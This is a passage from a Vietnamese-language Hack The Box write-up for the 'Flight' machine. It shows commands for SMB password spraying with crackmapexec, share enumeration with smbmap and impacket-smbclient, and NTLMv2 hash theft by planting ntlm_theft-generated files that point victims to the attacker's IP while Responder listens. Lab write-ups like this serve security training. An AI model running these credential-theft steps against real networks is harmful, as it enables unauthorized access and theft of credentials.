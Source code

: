 Sau đó, có thể sử dụng crackmapexec để thực hiện việc spray mật khẩu.

```
crackmapexec smb flight.htb -u ./users -p 'S@Ss!K@*t13'
```

![alt text](image-10.png)

Có kết quả positive với user `S.Moon`. Chạy lại `smbmap` để kiểm tra xem có giành được nhiều đặc quyền hơn đối với user `svc_apache` không.

```
smbmap -H flight.htb -u 'S.Moon' -p 'S@Ss!K@*t13'
```

![alt text](image-11.png)

Bây giờ có quyền `WRITE` vào share `Shared`. Sử dụng `impacket-smbclient` để kiểm tra những gì bên trong share này.

```
impacket-smbclient s.moon:'S@Ss!K@*t13'@flight.htb
```

![alt text](image-12.png)

Share hoàn toàn empty.

## Lateral Movement

Tại thời điểm này, đã chuyển sang user `s.moon` và điều duy nhất đạt được là quyền truy cập `WRITE` trên share `Share` đang empty. Đánh giá từ tên của share, hoàn toàn có thể có nhiều user truy cập vào share này.

Trong Windows, nhiều file tự động được "thực thi" khi chúng được đặt bên trong một directory và directory đó được truy cập. Các file này có thể trỏ đến một network share cho một tài nguyên, buộc machine phải xác thực để truy cập tài nguyên. Trên thực tế, có một công cụ có tên là ntl_theft (https://github.com/Greenwolf/ntlm_theft) tạo ra một số file có khả năng được sử dụng để đánh cắp hash NTLMv2 của user chỉ bằng cách truy cập vào một folder.

Vì vậy, trước hết, thiết lập `Responder` để intercept mọi yêu cầu xác thực tiềm ẩn.

```
responder -I tun0 -v
```

Sau đó, clone tool `ntl_theft` và tạo các malicious file.

```
git clone https://github.com/Greenwolf/ntlm_theft

cd ./ntlm_theft

python3 ntlm_theft.py --generate all --server 10.10.14.67 --filename htb
```

![alt text](image-13.png)
